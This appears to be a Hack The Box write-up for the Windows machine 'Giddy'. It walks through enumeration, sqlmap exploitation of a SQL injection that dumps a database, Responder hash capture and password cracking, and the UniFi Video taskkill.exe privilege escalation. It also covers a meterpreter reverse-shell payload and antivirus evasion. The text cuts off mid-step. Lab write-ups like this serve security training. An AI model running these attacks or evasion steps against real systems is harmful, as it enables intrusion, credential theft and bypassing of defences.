





---
search:
  exclude: true
---
# Giddy Writeup

## Introduction :

Giddy is a Medium windows box released back in September 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      [0] nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → nmap -sCV -p443,3389,80 10.10.10.104
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-21 08:30 GMT
      Nmap scan report for 10.10.10.104
      Host is up (0.080s latency).
    
      PORT     STATE SERVICE       VERSION
      80/tcp   open  http          Microsoft IIS httpd 10.0
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      |_http-title: IIS Windows Server
      443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      |_http-title: IIS Windows Server
      | ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
      | Not valid before: 2018-06-16T21:28:55
      |_Not valid after:  2018-09-14T21:28:55
      |_ssl-date: 2020-03-21T08:30:57+00:00; +15s from scanner time.
      | tls-alpn:
      |   h2
      |_  http/1.1
      3389/tcp open  ms-wbt-server Microsoft Terminal Services
      | rdp-ntlm-info:
      |   Target_Name: GIDDY
      |   NetBIOS_Domain_Name: GIDDY
      |   NetBIOS_Computer_Name: GIDDY
      |   DNS_Domain_Name: Giddy
      |   DNS_Computer_Name: Giddy
      |   Product_Version: 10.0.14393
      |_  System_Time: 2020-03-21T08:30:54+00:00
      | ssl-cert: Subject: commonName=Giddy
      | Not valid before: 2020-03-20T08:23:27
      |_Not valid after:  2020-09-19T08:23:27
      |_ssl-date: 2020-03-21T08:30:57+00:00; +15s from scanner time.
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 14s, deviation: 0s, median: 14s
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 18.03 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up both ports 80 and 443 so let's investigate them:

Both the http and https webpages have the same giddy.jpg image as you can see their md5sum hashes are th same: 

let's see if there are any steganography involved with this image: 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → md5sum giddy.jpg && md5sum giddy.jpg.1
      deb2da26172e73e35db217e7fd018c82  giddy.jpg
      deb2da26172e73e35db217e7fd018c82  giddy.jpg.1
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → file giddy.jpg
      giddy.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 736x736, components 3
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → exiftool giddy.jpg
      ExifTool Version Number         : 11.91
      File Name                       : giddy.jpg
      Directory                       : .
      File Size                       : 87 kB
      File Modification Date/Time     : 2018:06:17 15:21:41+01:00
      File Access Date/Time           : 2020:03:21 08:39:29+00:00
      File Inode Change Date/Time     : 2020:03:21 08:38:17+00:00
      File Permissions                : rw-r--r--
      File Type                       : JPEG
      File Type Extension             : jpg
      MIME Type                       : image/jpeg
      JFIF Version                    : 1.01
      Resolution Unit                 : None
      X Resolution                    : 1
      Y Resolution                    : 1
      Image Width                     : 736
      Image Height                    : 736
      Encoding Process                : Progressive DCT, Huffman coding
      Bits Per Sample                 : 8
      Color Components                : 3
      Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
      Image Size                      : 736x736
      Megapixels                      : 0.542
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → steghide extract -sf giddy.jpg
      Enter passphrase:
      steghide: could not extract any data with that passphrase!
    
      [0] nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → strings giddy.jpg
      JFIF
       , #&')*)
      -0-(0%()(
      ((((((((((((((((((((((((((((((((((((((((((((((((((
      58!$@T
      [@:i
      @D1"
    
    

After trying a few basic steganography commands we see can assume that it is a rabbithole, so let's move onto dirbust the website using gobuster: 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.104/ -t 50
      ===============================================================
      Gobuster v3.0.1
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
      ===============================================================
      [+] Url:            http://10.10.10.104/
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
      [+] Status codes:   200,204,301,302,307,401,403
      [+] User Agent:     gobuster/3.0.1
      [+] Timeout:        10s
      ===============================================================
      2020/03/21 08:45:08 Starting gobuster
      ===============================================================
      /remote (Status: 302)
      /mvc (Status: 301)
      Progress: 33026 / 220561 (14.97%)^C
      [!] Keyboard interrupt detected, terminating.
      [ERROR] 2020/03/21 08:46:27 [!] context canceled
      ===============================================================
      2020/03/21 08:46:27 Finished
      ===============================================================
    

And here we see 2 interesting directories : /mvc and /remote, so we investigate them : 

On /mvc we get an inventory page with a list of products and on /remote we get a Windows PowerShell Web Access. 
    
    
      http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=34
    

Clicking on any of the products we get this kind of URL, whose ProductSubCategoryId parameter is vulnerable to SQL injection, since we are able to trigger the following error with this URL:
    
    
      http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=34'
    

` 

Therefore let's use sqlmap to see what we can get from this SQLi vulnerability: 
    
    
      [0] nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → sqlmap -u http://10.10.10.104/mvc/Product.aspx\?ProductSubCategoryId\=34
              ___
             __H__
       ___ ___[.]_____ ___ ___  {1.4.3#stable}
      |_ -| . [(]     | .'| . |
      |___|_  [']_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 08:57:31 /2020-03-21/
    
      [08:57:32] [INFO] testing connection to the target URL
      you have not declared cookie(s), while server wants to set its own ('__AntiXsrfToken=d6eff5822fc...e426b0a4a5'). Do you want to use those [Y/n] y
      [08:57:37] [INFO] checking if the target is protected by some kind of WAF/IPS
      [08:57:37] [CRITICAL] WAF/IPS identified as 'ASP.NET RequestValidationMode (Microsoft)'
      are you sure that you want to continue with further target testing? [Y/n] y
      [08:57:40] [WARNING] please consider usage of tamper scripts (option '--tamper')
      [08:57:40] [INFO] testing if the target URL content is stable
      [08:57:40] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
      how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
      [08:57:50] [INFO] searching for dynamic content
      [08:57:50] [INFO] dynamic content marked for removal (1 region)
      [08:57:51] [INFO] testing if GET parameter 'ProductSubCategoryId' is dynamic
      [08:57:51] [INFO] GET parameter 'ProductSubCategoryId' appears to be dynamic
      [08:57:51] [INFO] heuristic (basic) test shows that GET parameter 'ProductSubCategoryId' might be injectable (possible DBMS: 'Microsoft SQL Server')
      [08:57:51] [INFO] testing for SQL injection on GET parameter 'ProductSubCategoryId'
      it looks like the back-end DBMS is 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
      for the remaining tests, do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1) values? [Y/n] y
    
    

It looks like sqlmap recognised that the page had a vulnerable MSSQL as DBMS, so from there we are able to dump the database information: 
    
    
    
      [0] nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → sqlmap -u http://10.10.10.104/mvc/Product.aspx\?ProductSubCategoryId\=34 --dump
              ___
             __H__
       ___ ___[|]_____ ___ ___  {1.4.3#stable}
      |_ -| . [)]     | .'| . |
      |___|_  [,]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 09:00:51 /2020-03-21/
    
    [...]
    
      [09:02:09] [INFO] testing Microsoft SQL Server
      [09:02:09] [INFO] confirming Microsoft SQL Server
      [09:02:10] [INFO] the back-end DBMS is Microsoft SQL Server
      back-end DBMS: Microsoft SQL Server 2016
      [09:02:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
      [09:02:10] [INFO] fetching current database
      [09:02:10] [INFO] fetching tables for database: Injection
      [09:02:10] [INFO] fetching columns for table 'CreditCard' in database 'Injection'
      [09:02:10] [INFO] fetching entries for table 'CreditCard' in database 'Injection'
      [09:02:45] [WARNING] large output detected. This might take a while
      [09:02:50] [WARNING] potential binary fields detected ('ExpYear'). In case of any problems you are advised to rerun table dump with '--fresh-queries --binary-fields="ExpYear"'
      Database: Injection
      Table: CreditCard
      [19118 entries]
      +--------------+---------+---------------+----------+----------------+---------------------+
      | CreditCardID | ExpYear | CardType      | ExpMonth | CardNumber     | ModifiedDate        |
      +--------------+---------+---------------+----------+----------------+---------------------+
      [09:02:50] [WARNING] console output will be trimmed to last 256 rows due to large table size
      | 18965        | \xdbM:  | SuperiorCard  | 10       | 33336543590725 | 2005-12-29T00:00:00 |
      | 18966        | \xdbM9  | SuperiorCard  | 3        | 33334535792346 | 2007-08-29T00:00:00 |
      | 18967        | \xdbM:  | SuperiorCard  | 2        | 33333916859579 | 2008-01-23T00:00:00 |
      | 18968        | \xdbM9  | Distinguish   | 12       | 55556583143582 | 2007-12-21T00:00:00 |
      | 18969        | \xdbM9  | Distinguish   | 8        | 55555887816801 | 2008-07-06T00:00:00 |
      | 18970        | \xdbM:  | SuperiorCard  | 8        | 33332716107805 | 2008-05-06T00:00:00 |
      | 18971        | \xdbM<  | SuperiorCard  | 6        | 33338514757402 | 2007-08-04T00:00:00 |
      | 18972        | \xdbM:  | SuperiorCard  | 2        | 33336313411053 | 2008-06-28T00:00:00 |
      | 18973        | \xdbM;  | ColonialVoice | 5        | 77777416785654 | 2008-02-24T00:00:00 |
      | 18974        | \xdbM:  | ColonialVoice | 12       | 77774932458889 | 2006-08-19T00:00:00 |
      | 18975        | \xdbM<  | ColonialVoice | 4        | 77774041110024 | 2007-08-28T00:00:00 |
      | 18976        | \xdbM9  | Vista         | 4        | 11115056300957 | 2007-12-14T00:00:00 |
      | 18977        | \xdbM:  | SuperiorCard  | 6        | 33332231621882 | 2006-10-30T00:00:00 |
      | 18978        | \xdbM9  | Distinguish   | 2        | 55551498598180 | 2008-04-02T00:00:00 |
      | 18979        | \xdbM:  | Vista         | 2        | 11119400340649 | 2007-06-16T00:00:00 |
      | 18980        | \xdbM;  | ColonialVoice | 10       | 77771495496508 | 2007-02-08T00:00:00 |
      | 18981        | \xdbM9  | ColonialVoice | 2        | 77774255818412 | 2008-04-27T00:00:00 |
    
    [...]
    
      | 19232        | \xdbM:  | Distinguish   | 1        | 55551883899215 | 2007-08-19T00:00:00 |
      | 19233        | \xdbM9  | SuperiorCard  | 1        | 33335458414079 | 2007-12-03T00:00:00 |
      | 19234        | \xdbM;  | Vista         | 1        | 11114074915665 | 2007-10-31T00:00:00 |
      | 19235        | \xdbM:  | ColonialVoice | 1        | 77774511327745 | 2007-06-01T00:00:00 |
      | 19236        | \xdbM<  | Vista         | 10       | 11112645284978 | 2008-02-21T00:00:00 |
      | 19237        | \xdbM9  | SuperiorCard  | 5        | 33336254511031 | 2008-07-21T00:00:00 |
      +--------------+---------+---------------+----------+----------------+---------------------+
    
      [09:03:00] [INFO] table 'Injection.dbo.CreditCard' dumped to CSV file '/home/nihilist/.sqlmap/output/10.10.10.104/dump/Injection/CreditCard.csv'
      [09:03:00] [INFO] fetching columns for table 'Product' in database 'Injection'
      [09:03:00] [INFO] fetching entries for table 'Product' in database 'Injection'
    
    

Now as you probably guessed, we have access to the entirety of the database, and the results are massive: 

And our sqlmap scan ends with these results: 
    
    
      [09:03:06] [INFO] table 'Injection.dbo.Product' dumped to CSV file '/home/nihilist/.sqlmap/output/10.10.10.104/dump/Injection/Product.csv'
      [09:03:06] [INFO] fetching columns for table 'ProductCategory' in database 'Injection'
      [09:03:06] [INFO] fetching entries for table 'ProductCategory' in database 'Injection'
      Database: Injection
      Table: ProductCategory
      [4 entries]
      +--------------------------------------+-------------------+--------+---------------------+
      | rowguid                              | ProductCategoryID | Name   | ModifiedDate        |
      +--------------------------------------+-------------------+--------+---------------------+
      | CFBDA25C-DF71-47A7-B81B-64EE161AA37C | 1                 | NULL   | 2002-06-01T00:00:00 |
      | C657828D-D808-4ABA-91A3-AF2CE02300E9 | 2                 | NULL   | 2002-06-01T00:00:00 |
      | 10A7C342-CA82-48D4-8A38-46A2EB089B74 | 3                 | NULL   | 2002-06-01T00:00:00 |
      | 2BE3BE36-D9A2-4EEE-B593-ED895D97C2A6 | 4                 | NULL   | 2002-06-01T00:00:00 |
      +--------------------------------------+-------------------+--------+---------------------+
    
      [09:03:06] [INFO] table 'Injection.dbo.ProductCategory' dumped to CSV file '/home/nihilist/.sqlmap/output/10.10.10.104/dump/Injection/ProductCategory.csv'
      [09:03:06] [INFO] fetching columns for table 'ProductSubcategory' in database 'Injection'
      [09:03:06] [INFO] fetching entries for table 'ProductSubcategory' in database 'Injection'
      Database: Injection
      Table: ProductSubcategory
      [37 entries]
      +--------------------------------------+-------------------+----------------------+--------+---------------------+
      | rowguid                              | ProductCategoryID | ProductSubcategoryID | Name   | ModifiedDate        |
      +--------------------------------------+-------------------+----------------------+--------+---------------------+
      | 2D364ADE-264A-433C-B092-4FCBF3804E01 | 1                 | 1                    | NULL   | 2002-06-01T00:00:00 |
      | 000310C0-BCC8-42C4-B0C3-45AE611AF06B | 1                 | 2                    | NULL   | 2002-06-01T00:00:00 |
      | 02C5061D-ECDC-4274-B5F1-E91D76BC3F37 | 1                 | 3                    | NULL   | 2002-06-01T00:00:00 |
      | 3EF2C725-7135-4C85-9AE6-AE9A3BDD9283 | 2                 | 4                    | NULL   | 2002-06-01T00:00:00 |
      | A9E54089-8A1E-4CF5-8646-E3801F685934 | 2                 | 5                    | NULL   | 2002-06-01T00:00:00 |
      | D43BA4A3-EF0D-426B-90EB-4BE4547DD30C | 2                 | 6                    | NULL   | 2002-06-01T00:00:00 |
      | E93A7231-F16C-4B0F-8C41-C73FDEC62DA0 | 2                 | 7                    | NULL   | 2002-06-01T00:00:00 |
      | 4F644521-422B-4F19-974A-E3DF6102567E | 2                 | 8                    | NULL   | 2002-06-01T00:00:00 |
      | 1830D70C-AA2A-40C0-A271-5BA86F38F8BF | 2                 | 9                    | NULL   | 2002-06-01T00:00:00 |
      | B5F9BA42-B69B-4FDD-B2EC-57FB7B42E3CF | 2                 | 10                   | NULL   | 2002-06-01T00:00:00 |
      | 7C782BBE-5A16-495A-AA50-10AFE5A84AF2 | 2                 | 11                   | NULL   | 2002-06-01T00:00:00 |
      | 61B21B65-E16A-4BE7-9300-4D8E9DB861BE | 2                 | 12                   | NULL   | 2002-06-01T00:00:00 |
      | 6D24AC07-7A84-4849-864A-865A14125BC9 | 2                 | 13                   | NULL   | 2002-06-01T00:00:00 |
      | 5515F857-075B-4F9A-87B7-43B4997077B3 | 2                 | 14                   | NULL   | 2002-06-01T00:00:00 |
      | 049FFFA3-9D30-46DF-82F7-F20730EC02B3 | 2                 | 15                   | NULL   | 2002-06-01T00:00:00 |
      | D2E3F1A8-56C4-4F36-B29D-5659FC0D2789 | 2                 | 16                   | NULL   | 2002-06-01T00:00:00 |
      | 43521287-4B0B-438E-B80E-D82D9AD7C9F0 | 2                 | 17                   | NULL   | 2002-06-01T00:00:00 |
      | 67B58D2B-5798-4A90-8C6C-5DDACF057171 | 3                 | 18                   | NULL   | 2002-06-01T00:00:00 |
      | 430DD6A8-A755-4B23-BB05-52520107DA5F | 3                 | 19                   | NULL   | 2002-06-01T00:00:00 |
      | 92D5657B-0032-4E49-BAD5-41A441A70942 | 3                 | 20                   | NULL   | 2002-06-01T00:00:00 |
      | 09E91437-BA4F-4B1A-8215-74184FD95DB8 | 3                 | 21                   | NULL   | 2002-06-01T00:00:00 |
      | 1A5BA5B3-03C3-457C-B11E-4FA85EDE87DA | 3                 | 22                   | NULL   | 2002-06-01T00:00:00 |
      | 701019C3-09FE-4949-8386-C6CE686474E5 | 3                 | 23                   | NULL   | 2002-06-01T00:00:00 |
      | 5DEB3E55-9897-4416-B18A-515E970BC2D1 | 3                 | 24                   | NULL   | 2002-06-01T00:00:00 |
      | 9AD7FE93-5BA0-4736-B578-FF80A2071297 | 3                 | 25                   | NULL   | 2002-06-01T00:00:00 |
      | 4624B5CE-66D6-496B-9201-C053DF3556CC | 4                 | 26                   | NULL   | 2002-06-01T00:00:00 |
      | 43B445C8-B820-424E-A1D5-90D81DA0B46F | 4                 | 27                   | NULL   | 2002-06-01T00:00:00 |
      | 9B7DFF41-9FA3-4776-8DEF-2C9A48C8B779 | 4                 | 28                   | NULL   | 2002-06-01T00:00:00 |
      | 9AD3BCF0-244D-4EC4-A6A0-FB701351C6A3 | 4                 | 29                   | NULL   | 2002-06-01T00:00:00 |
      | 1697F8A2-0A08-4883-B7DD-D19117B4E9A7 | 4                 | 30                   | NULL   | 2002-06-01T00:00:00 |
      | F5E07A33-C9E0-439C-B5F3-9F25FB65BECC | 4                 | 31                   | NULL   | 2002-06-01T00:00:00 |
      | 646A8906-FC87-4267-A443-9C6D791E6693 | 4                 | 32                   | NULL   | 2002-06-01T00:00:00 |
      | 954178BA-624F-42DB-95F6-CA035F36D130 | 4                 | 33                   | NULL   | 2002-06-01T00:00:00 |
      | 19646983-3FA0-4773-9A0C-F34C49DF9BC8 | 4                 | 34                   | NULL   | 2002-06-01T00:00:00 |
      | 3002A5D5-FEC3-464B-BEF3-E0F81D35F431 | 4                 | 35                   | NULL   | 2002-06-01T00:00:00 |
      | FE4D46F2-C87C-48C5-A4A1-3F55712D80B1 | 4                 | 36                   | NULL   | 2002-06-01T00:00:00 |
      | 3C17C9AE-E906-48B4-BDD3-60E28D47DCDF | 4                 | 37                   | NULL   | 2002-06-01T00:00:00 |
      +--------------------------------------+-------------------+----------------------+--------+---------------------+
    
      [09:03:06] [INFO] table 'Injection.dbo.ProductSubcategory' dumped to CSV file '/home/nihilist/.sqlmap/output/10.10.10.104/dump/Injection/ProductSubcategory.csv'
      [09:03:06] [WARNING] HTTP error codes detected during run:
      500 (Internal Server Error) - 14 times
      [09:03:06] [INFO] fetched data logged to text files under '/home/nihilist/.sqlmap/output/10.10.10.104'
    
      [*] ending @ 09:03:06 /2020-03-21/
    

So from here we have quite a few info for us to use in order to progress further on the box. Based on the results of sqlmap , it is preety clear that we have control over the database, so we could use sqlmap's --sql-shell to get a shell onto the box, But instead we'll use responder and xpdirtree: 

_Terminal 1:_
    
    
      [0] nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → sudo responder -I tun0
      [sudo] password for nihilist:
                                               __
        .----.-----.-----.-----.-----.-----.--|  |.-----.----.
        |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
        |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                         |__|
    
                 NBT-NS, LLMNR & MDNS Responder 3.0.0.0
    
        Author: Laurent Gaffie (laurent.gaffie@gmail.com)
        To kill this script hit CTRL-C
    
    
      [+] Poisoners:
          LLMNR                      [ON]
          NBT-NS                     [ON]
          DNS/MDNS                   [ON]
    
      [+] Servers:
          HTTP server                [ON]
          HTTPS server               [ON]
          WPAD proxy                 [OFF]
          Auth proxy                 [OFF]
          SMB server                 [ON]
          Kerberos server            [ON]
          SQL server                 [ON]
          FTP server                 [ON]
          IMAP server                [ON]
          POP3 server                [ON]
          SMTP server                [ON]
          DNS server                 [ON]
          LDAP server                [ON]
          RDP server                 [ON]
    
      [+] HTTP Options:
          Always serving EXE         [OFF]
          Serving EXE                [OFF]
          Serving HTML               [OFF]
          Upstream Proxy             [OFF]
    
      [+] Poisoning Options:
          Analyze Mode               [OFF]
          Force WPAD auth            [OFF]
          Force Basic Auth           [OFF]
          Force LM downgrade         [OFF]
          Fingerprint hosts          [OFF]
    
      [+] Generic Options:
          Responder NIC              [tun0]
          Responder IP               [10.10.14.24]
          Challenge set              [random]
          Don't Respond To Names     ['ISATAP']
    
    
    
      [+] Listening for events...
    
    

` 

Now that we have Stacy's NTLMv2-SSP Hash we can crack it using john and rockyou.txt:
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → nano stacy.hash
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → john -w /usr/share/wordlists/rockyou.txt stacy.hash
    

And after we let it run for a while we get the password xNnWo6272k7x ! Therefore we can use it to log into the box via the Windows PowerShell Web Access:

Once connected, we are logged in as stacy: 

And we have been able to print out the user flag! 

## **Part 3 : Getting Root Access**

Now in order to privesc on this box we need to take a look into stacy's Documents folder:

And here we see a file called "unifivideo" which is an IP video management surveillance system designed to work with Ubiquiti's UniFi Video Camera product line. If we do a quick searchsploit command to find the public exploits that are available to us, we find this privilege escalation vulnerability: 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → searchsploit Ubiquiti unifi
      ---------------------------------------- ---------------------------------
       Exploit Title                          |  Path
                                              | (/usr/share/exploitdb/)
      ---------------------------------------- ---------------------------------
      Ubiquiti Networks UniFi 3.2.10 - Cross- | exploits/json/webapps/39488.txt
      Ubiquiti Networks UniFi Video Default - | exploits/php/webapps/39268.java
      Ubiquiti UniFi Video 3.7.3 - Local Priv | exploits/windows/local/43390.txt
      ---------------------------------------- ---------------------------------
      Shellcodes: No Result
      Papers: No Result
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → searchsploit -m exploits/windows/local/43390.txt
        Exploit: Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation
            URL: https://www.exploit-db.com/exploits/43390
           Path: /usr/share/exploitdb/exploits/windows/local/43390.txt
      File Type: UTF-8 Unicode text, with CRLF line terminators
    
      Copied to: /home/nihilist/_HTB/Giddy/43390.txt
    
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → nano 43390.txt
    

So, as the exploit suggests, 
    
    
      5. VULNERABILITY DETAILS
      ========================
      Ubiquiti UniFi Video for Windows is installed to "C:\ProgramData\unifi-video\"
      by default and is also shipped with a service called "Ubiquiti UniFi Video". Its
      executable "avService.exe" is placed in the same directory and also runs under
      the NT AUTHORITY/SYSTEM account.
    
      However the default permissions on the "C:\ProgramData\unifi-video" folder are
      inherited from "C:\ProgramData" and are not explicitly overridden, which allows
      all users, even unprivileged ones, to append and write files to the application
      directory:
    
      c:\ProgramData>icacls unifi-video
      unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
      BUILTIN\Administrators:(I)(OI)(CI)(F)
      CREATOR OWNER:(I)(OI)(CI)(IO)(F)
      BUILTIN\Users:(I)(OI)(CI)(RX)
      BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)
    
      Upon start and stop of the service, it tries to load and execute the file at
      "C:\ProgramData\unifi-video\taskkill.exe". However this file does not exist in
      the application directory by default at all.
    
      By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
      unprivileged user, it is therefore possible to escalate privileges and execute
      arbitrary code as NT AUTHORITY/SYSTEM.
    

We should be able to start the service "Ubiquiti UniFi Video" , and as it starts it will try to execute a file called "taskkill.exe" in C:\ProgramData\unifi-video\ However the file doesn't exist by default, therefore if we have write permissions in that directory we can place our payload as "taskkill.exe" , and hopefully as we restart the service we would be able to get a reverse shell as NT AUTHORITY/SYSTEM. So let's first generate our payload with msfvenom:

So right here we generated our meterpreter_reverse_tcp payload pointing at our port 9001, we have downloaded it onto the box usng the Invoke-WebRequest command, and we have metasploit ready, all that we have to do is stop the service, and start it once again: 

However we didn't get a meterpreter shell session because there is an antivirus blocking us on this box, The problem is that our payload is probably easily detected by the antivirus, Therefore we need to do some AV Evasion (Antivirus Evasion) which we can do using the [Phantom Evasion framework](): 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → git clone https://github.com/oddcod3/Phantom-Evasion
      Cloning into 'Phantom-Evasion'...
      remote: Enumerating objects: 64, done.
      remote: Counting objects: 100% (64/64), done.
      remote: Compressing objects: 100% (39/39), done.
      remote: Total 594 (delta 33), reused 43 (delta 25), pack-reused 530
      Receiving objects: 100% (594/594), 346.61 KiB | 637.00 KiB/s, done.
      Resolving deltas: 100% (341/341), done.
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Giddy]
      → cd Phantom-Evasion
    
      {Ø} nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ✔
      → ls                                                                                        [2cd0673]
      LICENSE  Modules  phantom-evasion.py  README.md  Setup
    
      {Ø} nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ✔
      → python3 phantom-evasion.py --setup
    
      [...]
    
      {Ø} nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ✔
      → python3 phantom-evasion.py
    

` 

We'll use 1) windows modules, 1) Windows shellcode injection : 

Once we have our default options setup, we need to specify the AV Evasion payload encryption, which we'll x go for the Double-key XOR (3)

We then select the appropriate options for our payload : 

Once it's done generating the payload, we repeat our previous steps: 

Unfortunately that didn't work either, so we'll go for [SecJuice's](https://www.secjuice.com/giddy-write-up-hackthebox) solution which consists of creating a .NET binary working with sockets to get us a root shell:
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [_HTB/Giddy/Phantom-Evasion] at  master ?
